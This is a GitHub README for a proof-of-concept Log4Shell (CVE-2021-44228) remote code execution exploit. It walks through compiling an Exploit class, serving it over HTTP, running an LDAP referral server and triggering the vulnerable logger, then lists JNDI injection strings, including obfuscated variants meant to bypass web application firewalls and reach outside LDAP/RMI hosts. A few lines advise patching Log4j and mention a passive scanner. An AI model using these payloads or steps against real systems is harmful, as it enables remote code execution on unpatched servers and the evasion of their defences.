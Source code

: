 # CVE-2021-44228(Apache Log4j Remote Code Execution）

> [all log4j-core versions >=2.0-beta9 and <=2.14.1](https://logging.apache.org/log4j/2.x/security.html)

The version of 1.x have other vulnerabilities, we recommend that you update the latest version.

[Security Advisories / Bulletins linked to Log4Shell (CVE-2021-44228)](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)

### Usage:

download this project, compile the exploit code [blob/master/src/main/java/Exploit.java](Exploit.java), and start a webserver allowing downloading the compiled binary.

```
git clone https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce.git
cd CVE-2021-44228-Apache-Log4j-Rce

javac Exploit.java

# start webserver
# For Python2
python -m SimpleHTTPServer 8888
# For Python3
python3 -m http.server 8888

# make sure python webserver is running the same directory as Exploit.class, to test
  curl -I 127.0.0.1:8888/Exploit.class
```

download another project and run *LDAP server implementation returning JNDI references**
[https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java](LDAPRefServer.java)
```
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
# Java 8 required
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

build and run the activation code (simulate an log4j attack on a vulnerable java web server) [blob/master/src/main/java/log4j.java](log4j.java), and your calculator app will appear.
```
cd CVE-2021-44228-Apache-Log4j-Rce
mvn clean package
java -cp target/log4j-rce-1.0-SNAPSHOT-all.jar log4j

# expect the following
# 1. calculator app appear
# 2. in ldapserver console,
#  Send LDAP reference result for Exploit redirecting to http://127.0.0.1:8888/Exploit.class
# 3. in webserver console,
#  127.0.0.1 - - [....] "GET /Exploit.class HTTP/1.1" 200 -


```



Tips:
> Do not rely on a current Java version to save you. Update Log4 (or remove the JNDI lookup). Disable the expansion (seems a pretty bad idea anyways).

### Bypass rc1
For example:
```
${jndi:ldap://127.0.0.1:1389/ badClassName}
```

### Bypass WAF
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```
> Don't trust the web application firewall.

### Details Of Vuln
Lookups provide a way to add values to the Log4j configuration at arbitrary places.

[Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)

> The methods to cause leak in finally

```
LogManager.getLogger().error()
LogManager.getLogger().fatal()
```

### Simple Check Method
If you want to do black-box testing， I suggest you do passive scanning.

[BurpLog4jScan](https://github.com/tangxiaofeng7/BurpLog4j2Scan)

Have Fun!!!
![BurpLog4jScan.png](https://github.com/tangxiaofeng7/BurpLog4j2Scan/blob/master/img/result.png)

### Stargazers over time
[![Stargazers over time](https://starchart.cc/tangxiaofeng7/apache-log4j-poc.svg)](https://starchart.cc/tangxiaofeng7/apache-log4j-poc)
